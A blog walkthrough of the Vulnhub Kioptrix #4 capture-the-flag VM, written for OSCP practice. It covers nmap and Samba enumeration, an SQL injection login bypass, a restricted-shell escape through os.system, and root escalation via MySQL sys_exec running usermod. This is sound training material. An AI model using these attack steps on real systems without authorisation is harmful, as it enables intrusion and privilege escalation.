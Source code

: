 ```yaml
---
title: "Kioptrix #4 Walkthrough"
author: alex
date: Fri 28 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-3-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.3**. Or Kioptrix #4. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)** and **[Kioptrix #2](/posts/kioptrix-2-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.40    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.40
Host is up (0.00049s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)

PORT    STATE SERVICE     VERSION

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)

80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open              Samba smbd 3.0.28a (workgroup: WORKGROUP)

MAC Address: 08:00:27:B4:0C:E8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.100 days (since Tue Feb  8 19:33:43 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=205 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 2h49m42s, median: 1h59m58s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-20T18:58:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.40. We find a login page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.40 -t 10`. And the results show there's a directory named *john* and another named *robert*: `http://192.168.1.40/john/` & `http://192.168.1.40/robert/`.

![Directories](/kioptrix-gobuster.png)

- **Port 139/445:** Our lovely and insecure Samba ports. We are going to further enumerate Samba with Nmap: `sudo nmap --script smb-enum-users -v 192.168.1.40`.

![Samba Users](/kioptrix-smb-users.png)

Now we have some users to try to log in. Back to the login page, let's try some **SQLi**. Starting with *john* as username and the legendary `' OR '1'='1'` as the password.

![Member Page](/logged-in.png)

Yay, We have a password! Let's try to log in with SSH: 

```bash
sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc john@192.168.1.40
```

And now we're in! As we can see. we don't have a full working shell, it just allows us to use a few commands and stay in `/home/john`, otherwise we would be kicked out. Now we should scape this limited shell. Thanks to the `echo` command we can log other commands into the system bypassing the restriction: 

```bash
echo os.system('/bin/bash')
```

Ok, now we have a full shell. First things first, let's check if we can run **sudo** and what is already running as **root**. Running `sudo -l` we make sure that we cannot run **sudo**. Now let's check the processes that are running as root: `ps -elf | grep 'root'`. Now we see that **MySQL** is running as **root**.

Let's head to `/var/www` and `cat` the `checklogin.php` to see if any credentials are hardcoded. And yes! Now we can access the database with the credentials with `root` as user and no password: `mysql -h localhost -u root -p`.

Now we can see what databases we have: `show databases;`. And as **MySQL** is running as root and we have root access to it, what we can do is to try to add *john* to the *admin* group: 

```sql
select sys_exec('usermod -a -G admin john')
```

To check if it worked, exit MySQL and run `sudo su`. When prompted for john's password use *MyNameIsJohn* and... voilà! We have **root** access!